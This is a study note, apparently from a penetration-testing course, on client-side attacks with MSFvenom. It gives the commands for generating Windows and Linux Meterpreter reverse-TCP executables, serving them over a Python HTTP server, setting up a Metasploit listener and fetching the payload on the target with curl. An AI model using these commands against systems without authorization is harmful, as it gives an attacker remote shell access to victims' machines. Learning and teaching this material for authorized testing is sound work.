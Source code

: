 ```yaml
---
up: "[[Client-Side Attacks]]"
---
```


# Generating Payloads with MSFvenom

- A client side attack is an attack vector that involves coercing a client to execute a malicious payload on a their system that connects back to the attacker when executed
- These attacks typically utilize various social engineering techniques
- They take advantages of human vulnerabilities
- This attack vector involves the transfer and storage of a malicious payload on the client system, attackers need to be cognizant of AV detection

## MSFvenom

- a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers
- a combination or 2 tools: `msfpayload` & `msfencode`

## Demonstration

```bash
# list all payloads
msfvenom --list payloads
# focus on the meterpreter payloads
# staged
windows/meterpreter/bind_tcp
windows/x64/meterpreter/reverse_tcp
linux/x64/meterpreter/reverse_tcp
# non-staged payload
windows/x64/meterpreter_reverse_tcp
# output format 
msfvenom --list formats
```

```bash
# generate payload without encoding
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -f exe > payload86.exe
# change architecture
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -f exe > payload64.exe
```

Generate linux payload:

```bash
# x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -f elf > ~/payload86
# x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -f elf > ~/payload64
```

Transfer executable to the victim:

```bash
$ sudo python -m http.server
```

Setup listener:

```bash
> use multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST <my_ip>
> set LPORT <port>
```

In target:

```bash
curl http://<ip>/payload.exe
```
